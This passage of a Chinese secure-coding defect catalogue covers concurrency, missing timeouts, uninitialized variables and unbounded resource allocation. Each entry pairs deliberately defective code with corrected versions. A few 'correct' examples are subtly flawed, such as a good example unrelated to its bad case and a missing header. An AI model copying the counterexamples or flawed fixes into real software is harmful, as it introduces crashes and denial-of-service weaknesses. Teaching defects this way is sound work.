```

**正例**
```java
public class SomeSharedResource {
    private static volatile int counter;

    private static final Object lock = new Object();

    public void updateResource() {
        synchronized (lock) {
            counter++;
        }
    }
}
```

**修复建议**
类属性使用静态锁进行同步保护。

#### CWD-1132-000 在多线程上下文中对共享数据的非同步访问

#### CWD-1132-001 在spring bean的场景下，如果存在非安全的集合类型的属性定义，会造成并发访问问题

#### CWD-1132-002 高优先级线程抢占低优先级线程并修改共享数据内容

#### CWD-1132-003 临界区保护有问题

#### CWD-1132-004 操作类成员对象未加锁

#### CWD-1132-005 操作全局对象未加锁

#### CWD-1132-006 加锁范围过小

#### CWD-1132-007 【多线程并发操作时，如果多个线程同时对同一个不可重入类对象进行读写操作，可能会导致数据的不一致性或者错误的结果】使用非线程安全的List存储和操作数据

#### CWD-1132-008 【多线程并发操作时，如果多个线程同时对同一个不可重入类对象进行读写操作，可能会导致数据的不一致性或者错误的结果】使用非线程安全的Map存储和操作数据

#### CWD-1132-009 【多线程并发操作时，如果多个线程同时对同一个不可重入类对象进行读写操作，可能会导致数据的不一致性或者错误的结果】使用非线程安全的Queue存储和操作数据

#### CWD-1132-010 【多线程并发操作时，如果多个线程同时对同一个不可重入类对象进行读写操作，可能会导致数据的不一致性或者错误的结果】使用非线程安全的Set存储和操作数据

#### CWD-1132-011 【多线程并发操作时，如果多个线程同时对同一个不可重入类对象进行读写操作，可能会导致数据的不一致性或者错误的结果】使用非线程安全的StringBuilder操作字符串

#### CWD-1132-012 【对共享变量做同步访问控制时掉入同步陷阱】使用getClass()的返回值作为锁对象，误认为子类会基于基类进行同步

#### CWD-1132-013 【对共享变量做同步访问控制时掉入同步陷阱】使用可被重用的对象锁。常见的可被重用的对象类型包括八种基本数据类型的包装类、String常量、Interned String对象等

#### CWD-1132-014 【对共享变量做同步访问控制时掉入同步陷阱】使用了基于高级并发对象的synchronized块

#### CWD-1132-015 【对共享变量做同步访问控制时掉入同步陷阱】使用实例锁来同步静态共享变量

#### CWD-1132-016 【对共享变量做同步访问控制时掉入同步陷阱】锁对象声明时没有添加private和final修饰符，在多线程同步期间存在被修改的风险，导致无法正确实现同步

#### CWD-1132-017 【没有使用相同的顺序请求和臊放锁，产生死锁】多个线程互相持有彼此等待的锁而又不释放自己所持有的锁时，导致发生死锁。

#### CWD-1132-018 【使用不正确形式的双重检查锁延迟初始化单例对象】获取锁以后未进行对象创建二次检查导致多个线程重复创建对象

#### CWD-1132-019 【使用不正确形式的双重检查锁延迟初始化单例对象】获取锁之前未进行对象创建第一次检查导致多个线程获取锁的开销：对获取单例对象的代码块进行同步

#### CWD-1132-020 【使用不正确形式的双重检查锁延迟初始化单例对象】获取锁之前未进行对象创建第一次检查导致多个线程获取锁的开销：对获取单例对象的方法进行同步

#### CWD-1132-021 【使用非线程安全的方法来覆写线程安全的方法】父类带有synchronized关键字的方法被子类覆写后未带synchronized关键字

#### CWD-1132-022 【锁保护范围粒度不当导致进程等待时间异常甚至死锁问题】持有锁的代码执行包括网络、文件、控制台I/O和对象序列化等阻塞性操作导致线程饥饿

#### CWD-1132-023 【在不同线程中对共享变量进行读&写操作时未启用安全同步机制】CPU缓存的不可见性和非原子性操作导致多个线程对同一变量进行错误的读写操作

#### CWD-1132-024 【在不同线程中对共享变量进行读&写操作时未启用安全同步机制】在单例模式中未使用volatile关键字修饰引用变量，指令重排序导致多个线程获取同一个实例对象时，实例对象未被初始化

#### CWD-1132-025 【在不同线程中对共享变量进行读&写操作时未启用安全同步机制】在单例模式中未使用双重检查锁机制获取实例对象导致实例对象被重复创建

#### CWD-1132-026 创建单例类实例时没有适当的锁定或同步

**业界缺陷**

- [CWE-567: Unsynchronized Access to Shared Data in a Multithreaded Context](https://cwe.mitre.org/data/definitions/567.html)
---

# CWD-1134 同步不正确

**描述**
以并发的方式使用共享资源，但对资源的访问未正确地同步。如果对共享资源的访问未正确同步，则资源可能超出预期的状态。当攻击者可以影响共享资源时，这可能会导致意外或不安全的行为。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  正确使用锁

**示例**
**案例1: 使用了基于高级并发对象的synchronized块**
**语言: **JAVA

**描述**
updateResource()和doSomething()方法中使用不是同一个锁。

**反例**
```java
public class SomeSharedResource {
    private final Lock lock = new ReentrantLock();

    public void updateResource() {
        synchronized (lock) {
            // 更新共享的资源
            ...
        }
    }

    public void doSomething() {
        lock.lock();
        try {
            // 更新共享的资源
            ...
        } finally {
            lock.unlock();
        }
    }
}
```

**正例**
```java
public class SomeSharedResource {
    private final Lock lock = new ReentrantLock();

    public void updateResource() {
        lock.lock();
        try {
            // 更新共享的资源
            ...
        } finally {
            lock.unlock();
        }
    }

    public void doSomething() {
        lock.lock();
        try {
            // 更新共享的资源
            ...
        } finally {
            lock.unlock();
        }
    }
}
```

**修复建议**
高级并发类是指实现java.util.concurrent.locks包中的Lock或Condition接口的类，其本身提供了lock与unlock来实现同步，不应将这些类的对象作为synchronized块的同步对象使用。当使用基于高层并发对象的synchronized块时，容易被误认为这种方式与正常使用lock接口的方式是同一个锁，而实际是两个不同的锁，会导致无法实现同步控制。

#### CWD-1134-000 同步不正确

#### CWD-1134-001 不当的条件变量使用，虚假唤醒问题

**业界缺陷**

- [CWE-821: Incorrect Synchronization](https://cwe.mitre.org/data/definitions/821.html)
---

# CWD-1135 在同步访问远程资源时未设置超时时间

**描述**
代码有一个对远程资源的同步调用，但该调用没有超时设置，或者超时设置为无限。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  避免在持有锁时执行耗时或阻塞性的操作

**示例**
**案例1: 阻塞操作中设置超时时间**
**语言: **JAVA

**描述**
本示例中，在同步方法中建立socket链接，由于connect()方法未设置超时时间，服务端socket无法正常listen，会导致此方法一直阻塞。

**反例**
```java
public synchronized Socket connect(String ip, int port) {
    try {
        Socket socket = new Socket();
        socket.connect(new InetSocketAddress(ip, port));
        return socket;
    } catch (IOException ex) {
        ...
    }
    ...
}
```

**正例**
```java
public synchronized Socket connect(String ip, int port) {
    try {
        Socket socket = new Socket();
        socket.connect(new InetSocketAddress(ip, port), 10000);
        return socket;
    } catch (IOException ex) {
        ...
    }
    ...
}
```

**修复建议**
在同步方法中建立socket链接时，connect()方法设置超时时间为10秒。

#### CWD-1135-000 在同步访问远程资源时未设置超时时间

#### CWD-1135-001 java并发编程中多线程的同步阻塞方法未设置超时时间

#### CWD-1135-002 数据库访问中，未设置socket的超时参数，造成查询卡住

#### CWD-1135-003 启动线程使用了run()而不是start()

#### CWD-1135-004 使用HttpURLConnection对象作为http请求的返回对象时，没有设置读超时时间和连接超时时间导致业务线程卡死

#### CWD-1135-005 【Kafka使用不当导致的内存资源耗尽问题】关闭kafka生产者时未指定超时时间导致服务OOM

#### CWD-1135-006 【Socket使用不当导致的可靠可用性问题】使用Socket和SSLSocket时，没有指定read()的超时时间，异常情况下一直等待而不能退出

#### CWD-1135-007 【Socket使用不当导致的可靠可用性问题】没有指定Socket和SSLSocket的连接超时时间，异常情况下一直等待而不能退出

#### CWD-1135-008 使用lettuceClientConfigurationBuilder时，未设置client超时机制和socket超时机制和保活机制

#### CWD-1135-009 【ZooKeeper使用不当导致的可靠可用性问题】实例化ZooKeeper超时时间设置过长

**业界缺陷**

- [CWE-1088: Synchronous Access of Remote Resource without Timeout](https://cwe.mitre.org/data/definitions/1088.html)
---

# CWD-1137 并发上下文中使用不可重入函数

**描述**
在并发上下文中调用不可重入函数，其中竞争代码序列（例如线程或信号处理程序）可能有机会调用相同函数或以其他方式影响其状态。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  在 Java 中，使用 ReentrantLock 类进行同步保护。

**示例**
**案例1: 不可重入函数**
**语言: **JAVA

**描述**
在这个例子中，`methodA` 和 `methodB` 都试图获取同一个对象 `lock` 的同步锁。如果一个线程首先调用了 `methodA` 并获得了锁，然后在 `methodA` 中调用 `methodB`，那么 `methodB` 会尝试再次获取已经被当前线程持有的锁，导致死锁。

**反例**
```java
public class NonReentrantExample {
    private final Object lock = new Object();

    public void methodA() {
        synchronized (lock) {
            // 执行一些操作
            methodB();
        }
    }

    public void methodB() {
        synchronized (lock) {
            // 执行一些操作
        }
    }
}
```

**正例**
```java
public class ReentrantExample {
    private final ReentrantLock lock = new ReentrantLock();

    public void methodA() {
        lock.lock();
        try {
            // 执行一些操作
            methodB();
        } finally {
            lock.unlock();
        }
    }

    public void methodB() {
        lock.lock();
        try {
            // 执行一些操作
        } finally {
            lock.unlock();
        }
    }
}
```

**修复建议**
为了避免这种情况，Java 提供了可重入锁（ReentrantLock），它可以允许同一个线程多次获取同一个锁，而不会导致死锁。

#### CWD-1137-000 并发上下文中使用不可重入函数

**业界缺陷**

- [CWE-663: Use of a Non-reentrant Function in a Concurrent Context](https://cwe.mitre.org/data/definitions/663.html)
---

# CWD-1139 资源未初始化

**别名: **缺少初始化

**描述**
变量缺少初始化缺陷指的是在编程中，变量在使用前未被赋予初始值的情况。这种情况下:


- 程序错误：未初始化的变量可能包含随机的、不可预测的值，导致程序运行时出现错误，例如UnboundLocalError（未绑定的局部变量错误）。- 不预期行为：变量可能保留之前运行时的值，导致计算结果不准确，影响程序的正确性。- 调试困难：由于变量值不确定，排查错误时会增加难度，难以追踪问题根源通常建议在声明变量时，始终为其赋予一个明确的初始值；或确保在所有可能的代码路径中，变量都已赋值。特别是在条件判断或循环中，避免遗漏某些情况导致变量未被赋值。
**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确要求所有变量必须初始化。采用设计模式如工厂方法或依赖注入，确保对象在创建时被正确初始化。设计文档中详细说明变量初始化的重要性，并制定相关规范。

**编码**
- 策略：遵循编码规范，确保变量在声明时初始化。使用编程语言特性，如构造函数初始化列表，避免使用未初始化的变量。在代码中加入断言或检查，确保变量在使用前已被初始化。

**开发者测试**
- 策略：编写单元测试，测试变量未初始化的情况。故意让变量未初始化，观察程序是否能正确处理或触发错误，确保测试用例覆盖此类情况。

**代码Review**
- 策略：在代码审查中特别关注变量的声明和使用，确保每个变量在使用前被初始化。使用检查列表或自动化工具辅助审查，确保代码质量。

**编译构建**
- 策略：启用编译器警告功能，如gcc的-Wuninitialized选项，让编译器在构建时报告未初始化变量。调整构建脚本或IDE设置，确保警告被正确处理。

**代码检查**
- 策略：使用静态分析工具（如SonarQube、Checkmarx）扫描代码，找出未初始化的变量。配置工具在检测到问题时发出警告或错误，强制修复。

**集成测试**
- 策略：设计测试用例，模拟变量未初始化的情况，观察系统行为。在测试环境中故意让变量未初始化，检查系统是否能稳定运行或触发错误处理机制。

**示例**
**案例1: C变量未初始化**
**语言: **C

**描述**
此函数尝试从用户提供的字符串中提取一对数字。

**案例分析**
在这个反例中，m, n变量未被初始化。如果sscanf返回失败，程序继续运行则可能导致不可预期的行为。

**反例**
```c
void parse_data(char *untrusted_input) {
    int m, n, error;
    error = sscanf(untrusted_input, "%d:%d", &m, &n);
    if (EOF == error) {
        die("Did not specify integer value. Die evil hacker!\n");
    }
    /* proceed assuming n and m are initialized correctly */
}
```

**正例**
```c
char *test_string;
if (i != err_val) {
    test_string = "Hello World!";
} else {
    test_string = "Done on the other side!";
}
printf("%s", test_string);
```

**修复建议**
反例中对error初始化

**案例2: 结构体的成员变量未初始化**
**语言: **CPP

**描述**
当结构体有显式定义的构造函数时，使用{}初始化会调用该构造函数。而如果构造函数没有对成员变量进行初始化，那么成员变量的初始化只能依赖于它们在定义时的初始化。如果成员变量在定义时没有初始化，那么它们的值就是未定义的。

**反例**
```c++
struct Obj {
    int a;    // 未初始化a
    int b{6}; // 初始化b
    Obj() {}
};

Obj obj1{}; // 不符合：a的值未定义
Obj obj2; // 不符合：在有自定义构造函数时与{}初始化等价，也会调用自定义构造函数，a未初始化
```

**正例**
```c++
struct Obj {
    int a{0}; // 初始化a
    int b{6}; // 初始化b
    Obj() {}
};

Obj obj{}; // 符合
```

**修复建议**
如果结构体有自定义构造函数，应该确保所有成员变量都初始化：定义时初始化，或者在构造函数中进行初始化。

**案例3: C++变量未初始化**
**语言: **CPP

**描述**
假设有一个函数，它根据用户输入的运算符计算两个数的和、差、积或商。如果运算符无效，函数应该输出错误信息。然而，结果变量未被初始化，导致在某些情况下程序可能崩溃或输出错误的结果。

**案例分析**
在这个反例中，result变量未被初始化。如果用户输入的运算符不在预定义的选项中，result将未被赋值，导致在打印时可能输出一个随机的值，或者程序崩溃，具体取决于编译器和运行时环境。

**反例**
```c++
#include <iostream>
using namespace std;

int main() {
    int num1, num2;
    char op;
    int result; // 未初始化

    cout << "请输入第一个数字：";
    cin >> num1;
    cout << "请输入第二个数字：";
    cin >> num2;
    cout << "请输入运算符（+、-、*、/）：";
    cin >> op;

    if (op == '+') {
        result = num1 + num2;
    } else if (op == '-') {
        result = num1 - num2;
    } else if (op == '*') {
        result = num1 * num2;
    } else if (op == '/') {
        result = num1 / num2;
    } else {
        cout << "无效的运算符" << endl;
    }

    cout << "计算结果为：" << result << endl;

    return 0;
}
```

**正例**
```c++
#include <iostream>
#include <limits> // 用于处理输入错误
using namespace std;

int main() {
    int num1, num2;
    char op;
    double result = 0.0; // 初始化为0.0

    cout << "请输入第一个数字：";
    cin >> num1;
    cout << "请输入第二个数字：";
    cin >> num2;
    cout << "请输入运算符（+、-、*、/）：";
    cin >> op;

    if (op == '+') {
        result = num1 + num2;
    } else if (op == '-') {
        result = num1 - num2;
    } else if (op == '*') {
        result = num1 * num2;
    } else if (op == '/') {
        if (num2 != 0) {
            result = static_cast<double>(num1) / num2;
        } else {
            cout << "除数不能为零" << endl;
            result = NAN; // 使用NAN表示无效结果
        }
    } else {
        cout << "无效的运算符" << endl;
        result = NAN; // 使用NAN表示无效结果
    }

    if (isnan(result)) {
        cout << "无法计算有效结果" << endl;
    } else {
        cout << "计算结果为：" << result << endl;
    }

    return 0;
}
```

**修复建议**
反例中对result进行初始化

#### CWD-1139-000 资源未初始化

#### CWD-1139-001 在函数中，直接使用未初始化的局部变量，导致未定义行为

#### CWD-1139-002 使用malloc或new分配的堆内存未初始化，直接使用可能导致未定义行为

#### CWD-1139-003 未初始化变量传递给另一函数使用，在目标函数内使用未初始化的变量，导致未定义行为

#### CWD-1139-004 变量仅在初始化函数的部分逻辑条件下被初始化，后续使用未初始化的变量，导致未定义行为

#### CWD-1139-005 类成员变量在构造函数中未初始化，后续也未显式初始化，可能导致后续使用时出现未定义值，引发潜在错误

#### CWD-1139-006 结构体类型变量逐成员初始化时，存在字段遗漏，导致访问未初始化字段

#### CWD-1139-007 在union联合体中，初始化了成员a，后续却使用成员b，可能引发未定义行为

#### CWD-1139-008 数组只初始化了部分元素，导致访问未初始化的数组元素

#### CWD-1139-009 在返回资源前未对资源进行任何初始化

#### CWD-1139-010 函数中存在Goto等跳转语句，导致函数可能返回未初始化的资源

#### CWD-1139-011 初始化函数在部分逻辑条件下才初始化返回值，后续使用未初始化的变量，导致未定义行为

#### CWD-1139-012 声明指针类型变量时，应当使用NULL显式初始化，避免使用未初始化指针的风险

**业界缺陷**

- [CWE-456: Missing Initialization of a Variable](https://cwe.mitre.org/data/definitions/456.html)
---

# CWD-1140 使用未初始化的资源

**描述**
使用未初始化的资源指的是在程序中被声明或分配但未赋予初始值的变量、指针、内存空间等被使用。例如，未初始化的全局变量、局部变量、动态分配的内存等被使用。这些资源在使用前未被赋予明确的初始值，因此它们的值可能是随机的或未定义的，被使用后导致程序行为不可预测，出现未定义的行为，内存或资源泄露，或存在潜在的安全漏洞等问题。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确规范要求
  在软件设计阶段，制定明确的初始化规范，要求所有变量、指针、内存等资源在使用前必须被初始化。
- 策略2：模块化设计
  将资源管理模块化，确保每个模块在初始化时明确其资源状态，避免未初始化的情况。
- 策略3：使用安全的编程模式
  设计时优先使用自动初始化的结构或库，减少手动初始化的需求。

**编码**
- 策略：遵循编码规范
  初始化变量：在声明变量时，立即进行初始化，避免使用未初始化的变量。
  检查内存分配：在使用动态内存分配函数（如malloc）后，立即检查返回值，确保内存分配成功后再使用。
  使用安全函数：优先使用标准库中带有初始化功能的函数，减少手动初始化的错误可能性。
  避免悬空指针：确保指针在使用前被正确初始化，并在不再使用时置为NULL。

**开发者测试**
- 策略1：单元测试
  编写单元测试用例，专门测试变量、指针、内存等资源的初始化情况，确保所有资源在使用前已被正确初始化。
- 策略2：边界条件测试
  测试资源在极端条件下的行为，如内存分配失败时的处理，确保程序能够优雅地处理未初始化的情况。
- 策略3：使用工具辅助测试:
  利用内存调试工具（如Valgrind）检测未初始化资源的使用，确保测试覆盖所有潜在问题。

**代码Review**
- 策略：重点审视变量，指针，内存初始化情况
  审查初始化情况：在代码审查过程中，特别关注变量、指针、内存等资源的初始化情况，确保所有资源在使用前已被正确初始化。
  检查内存分配：审查内存分配后的处理逻辑，确保在内存分配失败时有适当的错误处理机制。
  识别未初始化资源：通过代码审查，识别可能被遗漏的未初始化资源，并要求开发者进行修正。

**编译构建**
- 策略1：启用编译器警告
  在编译过程中启用编译器的警告功能，特别是关于未初始化变量的警告，确保开发者能够及时发现潜在问题。
- 策略2：使用编译器选项
  利用编译器提供的选项（如gcc的-Wuninitialized）来检测未初始化变量的使用，强制开发者进行修正。
- 策略3：构建自动化检查
  在构建过程中集成代码检查工具，确保每次构建都对未初始化资源进行检测，防止问题进入生产环境。

**代码检查**
- 策略1：静态分析工具
  配置静态代码分析工具（如Coverity、SonarQube）来检测未初始化资源的使用，确保代码在提交前通过这些工具的检查。
- 策略2：代码检查规则
  根据项目需求，定制代码检查规则，特别关注未初始化变量、指针、内存等问题。

**集成测试**
- 策略1：系统级测试
  在集成测试阶段，设计测试用例覆盖整个系统的资源初始化情况，确保所有模块在使用资源前已被正确初始化。
- 策略2：监控运行时行为
  在集成测试中使用监控工具，实时监控程序运行时的资源使用情况，及时发现未初始化资源的使用。
- 策略3：异常处理测试
  测试系统在资源初始化失败时的异常处理机制，确保程序能够稳定运行并提供友好的错误提示。

**示例**
**案例1: 使用未初始化的资源**
**语言: **C

**描述**
此函数尝试使用未初始化的指针。

**案例分析**
1、ptr 是一个指向整数的指针，但在声明后未初始化。直接使用 ptr 会导致未定义行为，因为指针可能指向一个随机的内存地址。
访问未初始化的内存：
2、通过 *ptr 访问指针指向的内存时，由于 ptr 未初始化，程序可能尝试访问无效的内存地址，导致程序崩溃或读取到随机的垃圾值。
3、潜在的安全风险：
如果 ptr 未初始化，它可能指向敏感内存区域，导致信息泄露或其他安全问题。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    int *ptr;  // 声明一个指针，但未初始化
    printf("未初始化的指针值为：%p\n", ptr);  // 使用未初始化的指针
    printf("未初始化指针指向的值为：%d\n", *ptr);  // 访问未初始化的内存
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    int *ptr = NULL;  // 初始化指针为 NULL
    ptr = (int *)malloc(sizeof(int));  // 分配内存
    if (ptr == NULL) {
        printf("内存分配失败\n");
        return -1;
    }
    *ptr = 0;  // 初始化内存
    printf("初始化后的指针值为：%p\n", ptr);  // 使用已初始化的指针
    printf("初始化后的值为：%d\n", *ptr);  // 访问已初始化的内存
    free(ptr);  // 释放内存
    return 0;
}
```

**修复建议**
1、初始化指针：
在声明指针时，将其初始化为 NULL，避免使用未初始化的指针。
2、检查内存分配状态：
使用 malloc 分配内存后，检查返回值是否为 NULL，以避免因内存分配失败而导致的空指针访问。
3、初始化内存：
在分配内存后，立即对内存进行初始化，确保内存中的值是已知的。
4、释放内存：
使用完动态分配的内存后，及时释放内存，避免内存泄漏。

**案例2: C++使用未初始化的资源**
**语言: **CPP

**描述**
此函数尝试使用未初始化的指针。

**反例**
```c++
#include <iostream>
#include <cstdlib>

int main() {
    int *ptr;  // 声明一个指针，但未初始化
    std::cout << "未初始化的指针值为：" << ptr << std::endl;  // 使用未初始化的指针
    std::cout << "未初始化指针指向的值为：" << *ptr << std::endl;  // 访问未初始化的内存
    return 0;
}
```

**正例**
```c++
#include <iostream>
#include <cstdlib>

int main() {
    int *ptr = nullptr;  // 初始化指针为 nullptr
    ptr = new int;  // 分配内存
    if (ptr == nullptr) {
        std::cout << "内存分配失败" << std::endl;
        return -1;
    }
    *ptr = 0;  // 初始化内存
    std::cout << "初始化后的指针值为：" << ptr << std::endl;  // 使用已初始化的指针
    std::cout << "初始化后的值为：" << *ptr << std::endl;  // 访问已初始化的内存
    delete ptr;  // 释放内存
    return 0;
}
```

**修复建议**
反例中对ptr进行初始化

#### CWD-1140-000 使用未初始化的资源

#### CWD-1140-001 构造函数调用了可被子类覆写的方法

#### CWD-1140-002 路径敏感的变量未初始化检查

#### CWD-1140-003 if条件内所有变量使用前都需要初始化

#### CWD-1140-004 strlen计算字符串长度时，如果字符串未初始化，计算结果未知

#### CWD-1140-005 使用自定义函数初始化变量，要判断结果是否有效

#### CWD-1140-006 C++类成员变量使用前未初始化，可能引起未定义行为

**业界缺陷**

- [CWE-457: Use of Uninitialized Variable](https://cwe.mitre.org/data/definitions/457.html)
---

# CWD-1151 未受限的资源分配

**描述**
未受限的资源分配是一种常见的编程缺陷，通常发生在程序中对资源的分配没有适当的限制，导致资源被过度使用或耗尽。这种缺陷可能导致系统资源耗尽、性能下降、程序崩溃甚至安全风险（如DOS拒绝服务）。除内存申请问题以外（内存申请归到内存安全中），其他资源申请未受限都归为此类，如：socket、文件描述符、数据库连接等。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在软件设计阶段，明确资源分配的限制和边界条件。
  1.确定资源的使用上限（如内存、文件句柄、网络连接等）。
  2.设计资源池或资源管理模块，确保资源的分配和释放遵循固定规则。
  3.在设计中加入资源监控机制，实时跟踪资源使用情况。

**编码**
- 策略：遵循编程规范，主动限制资源分配，避免局部变量占用空间过大，并确保资源的正确释放。
  1.在资源分配时设置明确的上限（如最大文件句柄数等）。
  2.确保每次资源分配后都有对应的释放操作（如 fclose、pthread_mutex_unlock 等）。
  3.在资源分配失败时，及时处理错误并停止进一步的资源分配。

**开发者测试**
- 策略：在开发阶段进行资源分配的边界测试和压力测试。
  1.模拟极端情况（如资源耗尽、高负载等），验证程序是否能正确处理。
  2.测试资源分配的上限，确保程序不会因资源耗尽而崩溃。

**代码Review**
- 策略：在代码审查时，重点检查资源分配和释放的逻辑，检查是否存在资源大量分配或循环分配等。
  1.确保资源分配有明确的限制（如最大次数、总量限制）。
  2.检查资源释放是否及时，避免资源泄漏。
  3.确保资源分配失败时有适当的错误处理。

**编译构建**
- 策略：在编译和构建阶段，启用资源相关的警告和错误检查。
  1.启用编译器的内存检查功能（如 GCC 的 -fsanitize=address）。
  2.配置构建工具，确保资源管理代码的正确性。如在编译时启用内存泄漏检测工具（如 Valgrind），检查程序运行时的资源使用情况。

**代码检查**
- 策略：使用静态代码分析工具（如 Coverity、SonarQube）或手动检查，发现潜在的资源分配问题。
  1.检查是否存在无限循环中的资源分配（如 fopen 等）。
  2.检查资源分配后是否及时释放。
  3.检查资源分配失败时是否有错误处理逻辑。

**集成测试**
- 策略：在集成测试阶段，验证资源分配的健壮性和稳定性。在集成测试中，限制系统资源（如文件句柄），验证程序是否能正确处理资源耗尽的情况。
  1.模拟真实环境中的资源使用情况，观察程序是否能稳定运行。
  2.测试程序在资源耗尽时的错误处理能力。

**示例**
**案例1: 句柄资源被无限制分配**
**语言: **C

**描述**
未受限的文件句柄分配

**案例分析**
在这个例子中，程序在一个无限循环中不断尝试打开文件 test.txt。由于没有限制文件句柄的分配次数，程序会不断打开文件句柄，直到系统文件句柄资源耗尽。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    while (1) {
        FILE* fp = fopen("test.txt", "w"); // 无限打开文件
        if (fp == NULL) {
            printf("文件打开失败\n");
            break;
        }
    }
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

#define MAX_FILE_HANDLES 10 // 最大文件句柄数量

int main() {
    FILE* fp;
    int count = 0;

    while (count < MAX_FILE_HANDLES) {
        fp = fopen("test.txt", "w");
        if (fp == NULL) {
            printf("文件打开失败\n");
            break;
        }
        // 处理文件操作
        fclose(fp); // 及时关闭文件句柄
        count++;
    }

    printf("成功打开并关闭了 %d 个文件句柄\n", count);

    return 0;
}
```

**修复建议**
1.限制资源分配次数：通过宏定义 MAX_FILE_HANDLES 设置文件句柄的最大分配次数，防止无限分配。
2.及时释放资源：在每次打开文件后，立即关闭文件句柄（fclose），避免文件句柄泄漏。
3.检查资源分配结果：在每次调用 fopen 后检查返回值，确保文件句柄分配成功。

**案例2: List参数无最大长度限制**
**语言: **JAVA

**描述**
当从外部接收不可信数据时，需要对数组、List参数进行最大长度限制，若没有大小或长度限制，则存在DOS风险。

**案例分析**
从外部接收了一个超大列表，并尝试将其设置到DataDTO对象的items属性中。由于没有使用@Size注解进行限制，如果列表的大小超过了系统能够处理的范围，则存在DOS风险。

**反例**
```java
class DataDTO {

    private List<String> items;

    public void setItems(List<String> items) {
        this.items = items;
    }
    ...
}

public class DataReceiver {
    // externalData是从外部接收的数据
    public static void process(List<String> externalData) {
        // 创建数据对象
        DataDTO dataDTO = new DataDTO();

        // 不符合：设置超大外部数据
        dataDTO.setItems(externalData);

    }
}
```

**正例**
```java
class DataDTO {
    @Size(max = 1000)
    private List<String> items;

    public void setItems(List<String> items) {
        this.items = items;
    }
    ...
}

public class DataReceiver {
    // externalData是从外部接收的数据
    public static void process(List<String> externalData) {
        // 创建数据对象
        DataDTO dataDTO = new DataDTO();

        // 符合
        dataDTO.setItems(externalData);

    }
}
```

**修复建议**
使用@Size注解来限制列表的最大长度，例如@Size(max = 1000)，以防止接收过大的列表导致系统资源耗尽。

#### CWD-1151-000 未受限的资源分配

#### CWD-1151-001 普通消息拥塞导致消息内存耗尽

#### CWD-1151-002 进程cfg文件中流控消息相关配置项错误

#### CWD-1151-003 栈溢出：函数递归调用，未控制调用次数，导致栈内存耗尽

#### CWD-1151-004 消息发送：dumlib单方面建通道，导致消息发送后无法释放

#### CWD-1151-005 消息发送：消息发送异常，本地缓存数据量未控制导致内存耗尽

#### CWD-1151-006 死循环长时间占用锁未释放

#### CWD-1151-007 【Apache POI组件解析/创建xlsx文件导致的内存资源消耗多的问题】使用XSSFWorkbook构造xlsx文件造成内存消耗高的问题

#### CWD-1151-008 【deepoove poi组件解析/创建docx文件导致的内存资源消耗多的问题】使用NiceXWPFDocument组件读取docx文件流造成内存消耗高的问题

#### CWD-1151-009 【Apache POI组件解析/创建docx文件导致的内存资源消耗多的问题】使用XWPFDocument组件读取docx文件流造成内存消耗高的问题

#### CWD-1151-010 hashcode可变的对象存入HashSet，或作为key存入HashMap、HashTable后无法从集合内删除，造成资源耗尽

#### CWD-1151-011 【使用jedis组件进行redis存储时造成内存资源消耗】使用jedis保存数据到redis时, 没有限制保存数据的大小和数量，导致redis内存资源耗尽

#### CWD-1151-012 使用CSVReader的readNext、csvReader.readNextSilently、readAll方法解析不可信csv文件造成内存消耗过大

#### CWD-1151-013 【不正确使用@Async注解影响业务可靠性】使用@Async进行函数异步调用时未指定自定义线程池导致小任务卡死

#### CWD-1151-014 【集合变量不当的持有大量或超大的元素】未校验大小的外部数据存入集合对象后，导致该大对象无法及时被回收，造成资源耗尽

#### CWD-1151-015 单例类中集合类型的成员变量缺少生命周期管理，则可能存在资源耗尽风险

#### CWD-1151-016 【Apache POI组件解析/创建xlsx文件导致的内存资源消耗多的问题】使用XSSFWorkbook类读xlsx文件造成内存消耗高的问题

#### CWD-1151-017 【Apache POI组件解析/创建pptx文件导致的内存资源消耗多的问题】使用XMLSlideShow读取pptx文件流造成内存消耗高的问题

#### CWD-1151-018 集合类型的成员变量只有添加元素的操作，没有删除集合对象中元素的操作，则存在资源耗尽风险

#### CWD-1151-019 【数据库查询时未限制最大数据量】select语句没有使用limit关键字来限制最大数据量

**业界缺陷**

- [CWE-770: Allocation of Resources Without Limits or Throttling](https://cwe.mitre.org/data/definitions/770.html)
---

# CWD-1152 缺失对已分配资源的引用

**描述**
缺失对已分配资源的引用是一种常见的编程缺陷，通常发生在程序中分配了资源（如文件句柄、网络连接、数据库连接等），但在后续的代码中没有正确引用或管理这些资源（指针归到内存安全中），从而阻止了资源的回收。这种缺陷可能导致资源泄漏、未被正确释放，进而引发系统资源耗尽、性能下降或程序崩溃。


- 这并不一定适用于那些自动执行垃圾回收的语言或框架，因为在有自动执行垃圾回收的环境中，移除所有引用可能被视为资源可以被回收的信号。

1. 手动内存管理语言
  - C：最典型的风险语言，开发者需手动管理内存（`malloc/free`）、文件（`fopen/fclose`）、网络套接字等资源。  - C++：虽支持RAII，但若未正确使用智能指针或忘记释放资源，仍易触发此漏洞。  - Objective-C：需手动管理引用计数（MRC）或注意自动释放池。2. 带资源管理机制但仍需谨慎的语言
  - Rust：虽通过所有权系统避免内存泄漏，但需注意`Box`、`Rc`等场景下的循环引用。  - Swift：需注意`unowned`引用或Core Foundation对象的桥接管理。  - Ada/Pascal：某些实现需手动控制资源。3. 自动内存管理但涉及外部资源的语言
  - Java/C#/Python/Go/JavaScript 等：
    - 虽然垃圾回收（GC）可管理内存，但文件句柄、数据库连接、网络套接字等外部资源仍需显式释放。    - 例如：未关闭`FileInputStream`（Java）、`SqlConnection`（C#）、打开文件未调用`close()`（Python）。
防护建议：


